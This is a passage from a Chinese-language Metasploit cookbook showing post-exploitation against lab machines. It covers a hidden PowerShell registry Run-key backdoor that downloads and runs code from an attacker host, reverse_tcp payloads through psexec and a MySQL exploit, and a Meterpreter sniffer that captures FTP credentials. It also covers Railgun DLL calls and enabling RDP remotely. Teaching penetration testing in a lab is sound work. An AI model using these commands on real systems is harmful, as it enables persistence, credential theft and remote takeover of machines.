- 4. 要显示值的数据内容，我们可以使用 reg 命令与 queryval 选项，后跟 -k 指定注册表键，以及 -v 指定要查询的值：

```
meterpreter > reg queryval -k
HKLM\\software\\microsoft\\windows\\currentversion
\\run -v Power
Key: HKLM\software\microsoft\windows\currentversion
\run
Name: Power
Type: REG_SZ
Data: powershell.exe -nop -w hidden -c $R=new-object
net.webclient;$R.proxy=[Net.WebRequest]::
GetSystemWebProxy();
$R.Proxy.Credentials=[Net.CredentialCache]::
DefaultCredentials;IEX
$R.downloadstring('http://192.168.216.5:8080/');
meterpreter >
```

- 5. 现在我们已经建立了注册表后门，只需让机器重新启动，我们就会获得一个具有系统权限的远程 shell：

```
msf exploit(web_delivery) >
[*] Sending stage (179267 bytes) to 192.168.216.10
[*] Meterpreter session 2 opened
(192.168.216.5:4444 -> 192.168.216.10:49379) at
2017-11-18 10:06:39 -0500
msf exploit(web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

太棒了！正如您所期望的，Metasploit Framework 为我们提供了所有必要的工具来模仿攻击者并测试最常见的持久化方法。

## 加载框架插件

Meterpreter 允许我们使用多个 Meterpreter 扩展，这些扩展为我们提供了增强功能，例如执行 PowerShell 和 Python 命令、创建交互式 PowerShell 提示、执行 LAN 攻击、嗅探流量等等。

### 如何操作...

- 1. 在本教程中，我们将首先使用 load powershell 命令加载 PowerShell 扩展，并使用 help 命令查看向 Meterpreter 会话添加了哪些命令：

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > help powershell

Powershell Commands
===================

Command Description
------- -----------
```

powershell_execute 执行 PowerShell 命令字符串
powershell_import 导入 PS1 脚本或
.NET 程序集 DLL
powershell_shell 创建一个交互式
PowerShell 提示符

```
meterpreter >
```

2. 我们要检查的第一个命令是 powershell_execute 命令，它允许我们执行 PowerShell 命令：

```
meterpreter > powershell_execute $PSVersionTable
[+] Command execution completed:
```

| 名称 | 值 |
| ---- | ----- |
| CLRVersion | 2.0.50727.5420 |
| BuildVersion | 6.1.7601.17514 |
| PSVersion | 2.0 |
| WSManStackVersion | 2.0 |
| PSCompatibleVersions | {1.0, 2.0} |
| SerializationVersion | 1.1.0.1 |
| PSRemotingProtocolVersion | 2.1 |

正如您所见，使用 powershell_execute 命令，我们可以像在 PowerShell 提示符下一样执行 PowerShell 命令。

3. 我们甚至可以通过将它们放在引号中来使用多个 PowerShell 命令，如以下示例所示，其中我们使用 PowerShell 获取域中所有用户列表：

```
meterpreter > powershell_execute
"Get-WmiObject Win32_UserDesktop |
Select-Object Element"
[+] Command execution completed:
```

```
Element
--------
\\VAGRANT-2008R2\root\cimv2:Win32_UserAccount.Domain="VAGRANT-2008R2",Name="Administrator"
\\VAGRANT-2008R2\root\cimv2:Win32_UserAccount.Domain="VAGRANT-2008R2",Name="anakin_skywalker"
\\VAGRANT-2008R2\root\cimv2:Win32_UserAccount.Domain="VAGRANT-2008R2",Name="artoo_detoo"
...
\\VAGRANT-2008R2\root\cimv2:Win32_UserAccount.Domain="VAGRANT-2008R2",Name="vagrant"
```

4. 通过加载嗅探器扩展，我们可以在目标机器上启动网络嗅探器：

```
meterpreter > load sniffer
Loading extension sniffer...Success.
meterpreter > help sniffer
```

嗅探器命令

| 命令 | 描述 |
|---|---|
| sniffer_dump | 检索捕获的数据包到 PCAP 文件 |
| sniffer_interfaces | 枚举所有可嗅探的网络接口 |
| sniffer_release | 在特定接口上释放捕获的数据包，而不是下载它们 |
| sniffer_start | 在特定接口上启动数据包捕获 |
| sniffer_stats | 查看活动捕获的统计信息 |
| sniffer_stop | 在特定接口上停止数据包捕获 |

5. 在开始捕获数据包之前，我们将首先使用 sniffer_interfaces 命令枚举可用接口：

```
meterpreter > sniffer_interfaces
```

```
1 - 'WAN Miniport (Network Monitor)'
( type:3 mtu:1514 usable:true dhcp:false wifi:false )
2 - 'Intel(R) PRO/1000 MT Desktop Adapter'
( type:4294967295 mtu:0 usable:false
dhcp:false wifi:false )
3 - 'Intel(R) PRO/1000 MT Network Connection'
( type:0 mtu:1514 usable:true dhcp:false
wifi:false )
4 - 'Intel(R) PRO/1000 MT Network Connection'
( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```

6. 然后，我们将使用 sniffer_start 后跟接口 ID 在第三个接口上开始嗅探：

```
meterpreter > sniffer_start 3
[*] Capture started on interface 3
(50000 packet buffer)
```

7. 为了生成一些流量，我们将登录到 Metasploitable 3 机器，打开命令提示符并使用用户名 user 和密码 user 通过 FTP 连接到 Metasploitable 2 机器：



然后，我们将使用 sniffer_stop 3 命令停止嗅探器：

```
meterpreter > sniffer_stop 3
[*] Capture stopped on interface 3
[*] There are 53 packets (4561 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
```

使用 sniffer_dump 3 命令下载 PCAP：

```
meterpreter > sniffer_dump 3 dump.pcap
[*] Flushing packet capture buffer for interface 3...
[*] Flushed 53 packets (5621 bytes)
[*] Downloaded 100% (5621/5621)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to dump.pcap
```

现在我们有了 PCAP 文件，我们可以使用 tcpdump，一个数据包分析命令行工具，来显示 PCAP 内容，使用 -nn 以便不转换地址或端口，A 以 ASCII 格式打印每个数据包，以及 r 从 PCAP 文件读取：

```
root@kali:~# tcpdump -nnAr dump.pcap port 21
reading from file dump.pcap, link-type EN10MB (Ethernet)
11:07:41.000000 IP 192.168.216.10.50255 > 192.168.216.129.21: Flags [S], seq 4124208382, win 8192, options [mss 1460,nop,wscale 0, nop,nop,sackOK], length 0
E..4.@.......
....O....1.......2............
...snip...
11:07:43.000000 IP 192.168.216.10.50255 > 192.168.216.129.21: Flags [P.], seq 1:12, ack 21, win 8172, length 11: FTP: USER user
E..3.@.......
....O...1.g...P...2...USER user
...snip...
11:07:44.000000 IP 192.168.216.10.50255 > 192.168.216.129.21: Flags [P.], seq 12:23, ack 55, win 8138, length 11: FTP: PASS user
E..3.@.......
....O....m
g...P...2...PASS user
```

查看输出，我们可以看到我们能够从 Metasploitable 3 和 Metasploitable 2 机器之间的连接中捕获 FTP 凭据。

这就是为什么你不应该使用明文协议，例如 FTP 和 Telnet。

## Meterpreter API 和混入

在之前的两章中，我们广泛学习了如何使用 Meterpreter 作为工具。你可能已经意识到 Meterpreter 在使我们的渗透任务更轻松、更快速方面的重要作用。现在，从本菜谱开始，我们将继续讨论与 Meterpreter 相关的一些高级概念。我们将深入 Metasploit 的核心，以了解 Meterpreter 脚本的工作原理以及如何构建自己的脚本。

从渗透测试人员的角度来看，了解如何实现自己的脚本技术以满足场景需求至关重要。可能会出现需要执行 Meterpreter 可能不足以解决的任务的情况，所以你不能袖手旁观。这就是开发自己的脚本和模块派上用场的地方。所以，让我们开始本菜谱。在本菜谱中，我们将讨论 Meterpreter API 和一些重要的混入，然后在后面的菜谱中，我们将编写自己的 Meterpreter 脚本。

## 准备工作

Meterpreter API 可以帮助程序员在渗透测试期间实现自己的脚本。由于整个 Metasploit 框架都是使用 Ruby 语言构建的，Ruby 编程经验可以增强你使用 Metasploit 的渗透体验。我们将在接下来的几个菜谱中处理 Ruby 脚本，因此需要一些之前的 Ruby 编程经验。如果你对 Ruby 和其他脚本语言有基本了解，那么理解这些概念就会很容易。

## 如何操作...

- 1. 让我们开始通过在我们的 Metasploitable 3 目标机器会话中启动一个交互式 Ruby shell 与 Meterpreter：

```
meterpreter > irb
[*] Starting IRB shell
[*] The "client" variable holds the
meterpreter client

>>
```

- 2. 现在我们进入了 Ruby shell，我们可以执行我们的 Ruby 脚本。让我们从两个数字的基本加法开始：

```
>> 1+1
=> 2
```

- 3. 我们的 shell 工作正常并且可以解释语句。让我们使用 framework 对象并显示有关我们会话的信息：

```
>> framework
=> #<Framework (2 sessions, 0 jobs, 0 plugins,
postgresql database active)>
>> framework.sessions
=> {3=>#<Session:meterpreter 192.168.216.10:49469
(192.168.216.10) "NT AUTHORITY\SYSTEM @
VAGRANT-2008R2">, 4=>#<Session:meterpreter
192.168.216.10:49470 (192.168.216.10)
"NT AUTHORITY\SYSTEM @ VAGRANT-2008R2">}
>>
```

- 4. 使用 client 显示有关我们目标机器的信息：

```
>> client
=> #<Session:meterpreter 192.168.216.10:49470
(192.168.216.10) "NT AUTHORITY\SYSTEM @
VAGRANT-2008R2">
```

## 工作原理...

让我们看一些打印 API 调用，这些调用在编写 Meterpreter 脚本时对我们很有用：

- print_line("message")：此调用将打印输出并在末尾添加回车符。
- print_status("message")：此调用在脚本语言中最常使用。它会提供回车符并打印正在执行的任何内容的狀態，以 [*] 为前缀：

```
>> print_status("HackingAlert")
[*] HackingAlert
=> nil
```


- `print_good("message")`: 此调用用于提供任何操作的执行结果。消息会在开头加上 `[+]` 前缀，表示操作成功：

    >> print_good("HackingAlert")
    [+] HackingAlert
    => nil

- `print_error("message")`: 此调用用于显示脚本执行期间可能出现的错误消息。消息会在开头加上 `[-]` 前缀：

    >> print_error("HackingAlert")
    [-] HackingAlert
    => nil

我之所以讨论这些不同的打印调用，是因为在编写 Meterpreter 脚本时它们在各自情况下被广泛使用。你可以在 `/usr/share/metasploit-framework/documentation` 中找到与 Meterpreter API 相关的文档。阅读它们以获得清晰详细的理解。你也可以参考 `/usr/share/metasploit-framework/lib/rex/post/meterpreter`，其中包含许多与 Meterpreter API 相关的脚本。

这些脚本中包含各种 Meterpreter 核心、桌面交互、特权操作以及更多命令。审阅这些脚本，以便深入了解 Meterpreter 在被入侵系统中的运行方式。

## Railgun——将 Ruby 变成武器

在上一节食谱中，我们看到了使用 Meterpreter API 运行 Ruby 脚本。让我们更进一步。假设我们想在受害者机器上进行远程 API 调用；最简单的方法是什么？Railgun 是显而易见的答案。它是 Meterpreter 的一个扩展，允许攻击者直接调用 DLL 函数。通常它用于调用 Windows API，但我们可以调用受害者机器上的任何 DLL。

### 准备工作

要开始使用 Railgun，我们需要在目标机器上有一个活动的 Meterpreter 会话。要启动 Ruby 解释器，我们将使用 `irb` 命令，如上一节食谱中所讨论的：

```
meterpreter > irb
[*] Starting IRB shell
[*] The "client" variable holds the meterpreter client
>>
```

### 如何操作...

在开始调用 DLL 之前，让我们先看看为了充分利用 Railgun 需要遵循的基本步骤：

- 1. 确定你想要调用的函数。
- 2. 在 https://msdn.microsoft.com/en-us/library/aa383749(v=vs.85).aspx 上查找该函数。
- 3. 检查函数所在的库（DLL）（例如 kernel32.dll）。所选的库函数可以调用为 client.railgun.dll_name.function_name(arg1, arg2, ...)。
- 4. Windows MSDN 库可用于识别在目标机器上调用的有用 DLL 和函数。
- 5. 让我们使用 client.sys.config.sysinfo API 调用来收集目标信息：
- 6. 如果我们只想要操作系统版本，可以使用 client.sys.config.sysinfo['OS']：

```
>> client.sys.config.sysinfo
=> {"Computer"=>"VAGRANT-2008R2",
"OS"=>"Windows 2008 R2 (Build 7601, Service Pack 1).",
"Architecture"=>"x64", "System Language"=>"en_US",
"Domain"=>"WORKGROUP", "Logged On Users"=>2}
```

```
>> client.sys.config.sysinfo['OS']
=> "Windows 2008 R2 (Build 7601, Service Pack 1)."
```

使用 Railgun 可能会是一次非常强大且令人兴奋的体验。你可以练习自己的调用和脚本来分析输出。然而，如果你想要调用的 DLL 或函数不是 Railgun 定义的一部分怎么办？在这种情况下，Railgun 也为你提供了添加自己的函数和 DLL 到 Railgun 的灵活性。我们将在下一节食谱中处理这个问题。

### 原理...

Railgun 是 Meterpreter 的一个扩展，允许我们在无需编译自己的 DLL 的情况下调用 Windows API。Railgun 可用于向被入侵目标进行远程 DLL 调用。远程 DLL 调用是渗透测试中的重要过程，因为它使我们能够完全控制被入侵目标以执行任何系统指令。

### 还有更多...

Railgun 目前支持 10 个不同的 Windows API DLL。你可以在以下文件夹中找到它们的定义：`/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def.`

## 向 Railgun 添加 DLL 和函数定义

在上一节食谱中，我们专注于通过 Railgun 调用 Windows API DLL。在本节食谱中，我们将专注于向 Railgun 添加自己的 DLL 和函数定义。为此，我们应该了解 Windows DLL。可以在 http://www.rubydoc.info/search/github/rapid7/metasploit-framework?q=Railgun 找到的 Railgun 文档可以帮助你快速了解在添加函数定义时可使用的不同 Windows 常量。

### 如何操作...

向 Railgun 添加新的 DLL 定义是一项简单的任务。假设你想添加一个随 Windows 提供但在你的 Railgun 中不存在的 DLL；你可以在 /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def 下创建 DLL 定义，选择 Linux、macOS 或 Windows 操作系统文件夹，并将其命名为 def_dllname.rb。

以下模板应演示 DLL 如何定义：

```
# -*- coding: binary -*-
module Rex
module Post
module Meterpreter
module Extensions
module Stdapi
module Railgun
module Def

class Def_somedll

  def self.create_dll(dll_path = 'somedll')
    dll = DLL.new(dll_path, ApiConstants.manager)

    # 1st argument = Name of the function
    # 2nd argument = Return value's data type
    # 3rd argument = An array of parameters
    dll.add_function('SomeFunction', 'DWORD', [
      ["DWORD","hwnd","in"]
    ])

    return dll
  end
end
end; end; end; end; end; end
```

- 1. 对于本节食谱，首先我们需要创建原始 def_shell32.rb Railgun DLL 定义的备份，以便我们可以编写自己的定义：

```
root@kali:~# cd /usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def/windows
root@kali:/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun/def/windows# mv def_shell32.rb def_shell32.rb.bak
```

- 2. 要编写 DLL 定义，我们将首先指定使用的模块：

```
# -*- coding: binary -*-
module Rex
module Post
module Meterpreter
module Extensions
module Stdapi
module Railgun
module Def
```

- 3. 然后是类和 DLL 的位置：

```
class Def_windows_shell32

def self.create_library(constant_manager,
library_path = 'shell32')
dll = Library.new(library_path, constant_manager)
```

将此代码保存为 def_shell32.dll 将为 shell32.dll 创建一个 Railgun 定义。

- 4. 下一步是向 DLL 定义添加函数。如果你查看 Metasploit 中的 def_shell32.dll 脚本，你会看到 IsUserAnAdmin 函数已经添加到了其中：

```
dll.add_function('IsUserAnAdmin', 'BOOL', [])
```

该函数根据条件简单返回 true 或 false 的布尔值。同样，我们可以在 shell32.dll 中添加自己的函数定义。

### 原理...

要列出 shell32.dll DLL 定义的可用函数，请在 Meterpreter 会话中输入以下内容：

```
meterpreter > irb
[*] Starting IRB shell
[*] The "client" variable holds the meterpreter client

>> session.railgun.shell32.functions
```

```
=> {"IsUserAnAdmin"=>#
<Rex::Post::Meterpreter::Extensions::Stdapi::Railgun::
:LibraryFunction:0x00560acbbe91d8 @return_type="BOOL",
@params=[], @remote_name="IsUserAnAdmin",
@calling_conv="stdcall">}
>>
```

如你所见，现在我们可以使用 IsUserAnAdmin 函数了。

那么，让我们从 shell32.dll 调用 IsUserAnAdmin 函数并分析输出：

```
>> client.railgun.shell32.IsUserAnAdmin
=> {"GetLastError"=>0, "ErrorMessage"=>
"The operation completed successfully.", "return"=>true}
```

该函数返回 true，表明我们的会话以系统管理员身份运行。Railgun 为我们提供了灵活地执行那些未以模块形式存在的任务的能力。因此，我们不仅限于框架提供的那些脚本和模块；事实上，现在我们可以按需进行调用。

这对使用 Railgun 作为调用 Windows API 的强大工具的简短演示，具体取决于你的需求。你可以在 MSDN 库中查找各种有用的 Windows API 调用，并将其添加到 Railgun 中以增强框架的功能。它可用于调用驻留在目标机器上的任何 DLL。在下一节食谱中，我们将继续分析和编写自己的 Meterpreter 脚本。

## 远程注入 VNC 服务器

虚拟网络计算（VNC）是一种图形化桌面共享系统，使用远程帧缓冲（RFB）协议远程控制另一台计算机。

我们可以使用 Metasploit 的 VNC 注入有效载荷远程注入 VNC 服务器。在本节食谱中，我们将学习如何远程注入 VNC 服务器。

### 准备工作

必须在主机系统上安装 VNC 查看器才能看到目标系统抛出的 VNC 会话。在本节食谱中，我们将使用 VNC 查看器，它已预装在 Kali Linux 中。


## 如何操作...

我们将使用 Microsoft Windows 身份验证用户代码执行漏洞利用模块，并使用 windows/vncinject/reverse_tcp 有效载荷远程注入 VNC 服务器：

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUSER Administrator
SMBUSER => Administrator
msf exploit(psexec) > set SMBPASS vagrant
SMBPASS => vagrant
msf exploit(psexec) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(psexec) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(psexec) > exploit
...
[-] 192.168.216.10:445 - Exploit aborted due to failure: unknown: 192.168.216.10:445 - Unable to execute specified command: The SMB server did not reply to our request
[*] Exploit completed, but no session was created.
msf exploit(psexec) >
```

现在，您应该能看到来自注入的 VNC DLL 的远程 VNC 会话：



## 启用远程桌面

某些组织可能不允许使用 VNC，而在我们的有效载荷中使用它可能会触发一些警报。这就是为什么我们应该尝试使用操作系统内置工具，例如远程桌面。

## 如何操作...

- 1. 首先，为了执行本教程，我们需要在目标机器 Metasploitable 3 上禁用远程桌面，因为默认情况下它是启用的：



- 2. 然后，要启用远程桌面，我们首先需要在目标机器上拥有一个 Meterpreter 会话。对于本教程，我们可以使用 Oracle MySQL for Microsoft Windows 载荷执行，该载荷利用了常见 MySQL 密码缺失的情况：

```
msf > use windows/mysql/mysql_payload
msf exploit(mysql_payload) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(mysql_payload) > set PAYLOAD
windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(mysql_payload) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(mysql_payload) > exploit
```

```
...
[*] Sending stage (205379 bytes) to 192.168.216.10
[*] 192.168.216.10:3306 - Command Stager progress
- 100.00% done (12022/12022 bytes)
[*] Meterpreter session 1 opened
(192.168.216.5:4444 -> 192.168.216.10:49778)
at 2017-11-23 16:44:00 -0500

meterpreter >
```

- 3. 现在我们有一个正在运行的会话，可以使用带有 -e 选项的 run getgui Meterpreter 脚本来启用远程桌面。这将启用远程桌面并且不会创建新用户：

```
meterpreter > run getgui -e

[!] Meterpreter scripts are deprecated. Try
post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp
OPTION=value [...] 
[*] Windows Remote Desktop Configuration Meterpreter
Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*] RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] The Terminal Services service is not set to auto,
changing it to auto ...
```

```
[*] Opening port in local firewall if necessary
[*] For cleanup use command:
run multi_console_command -r /root/.msf4/logs
/scripts/getgui/clean_up__20171123.4632.rc
meterpreter >
```

- 4. 要通过远程桌面连接，我们可以使用带有 -u 选项的 rdesktop 命令来指定要连接的用户名：

```
rdesktop 192.168.216.10 -u Administrator
```



## 其工作原理...

如果您仔细查看了 Meterpreter 脚本命令的输出，您可能会注意到警告，指出 Meterpreter 脚本已弃用，我们应该改用 post-exploitation 模块 post/windows/manage/enable_rdp。

因此，让我们使用 post-exploitation 模块并看看它是如何工作的：

- 1. 在 Meterpreter 会话中，我们将使用 background 命令将会话置于后台并返回到 Metasploit 控制台：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(mysql_payload) >
```

- 2. 然后，我们将使用 use 命令加载 post/windows/manage/enable_rdp post-exploitation 模块并查看选项：

```
msf exploit(mysql_payload) > use post/windows/manage
/enable_rdp
msf post(enable_rdp) > show options

Module options (post/windows/manage/enable_rdp):
```

| 名称 | 当前设置 | 必需 | 描述 |
|------|-----------------|----------|-------------|
| ENABLE | true | no | 启用 RDP 服务和防火墙例外。 |
| FORWARD | false | no | 将远程端口 3389 转发到本地端口。 |
| LPORT | 3389 | no | 转发远程连接的本地端口。 |
| PASSWORD |  | no | 创建用户的密码。 |
| SESSION |  | yes | 运行此模块的会话。 |
| USERNAME |  | no | 要创建的用户的用户名。 |

```
msf post(enable_rdp) >
```

- 3. 要启用远程桌面，我们只需将 SESSION 设置为要运行模块的会话，然后输入 run：

```
msf post(enable_rdp) > set SESSION 1
SESSION => 1
msf post(enable_rdp) > run

[*] Enabling Remote Desktop
[*] RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] Terminal Services service is already set to auto
[*] Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file:
/root/.msf4/loot/20171123170402_default
_192.168.216.10_host.windows.cle_349771.txt
[*] Post module execution completed
msf post(enable_rdp) >
```

太好了！模块成功完成；现在，我们可以使用 rdesktop 命令访问目标。
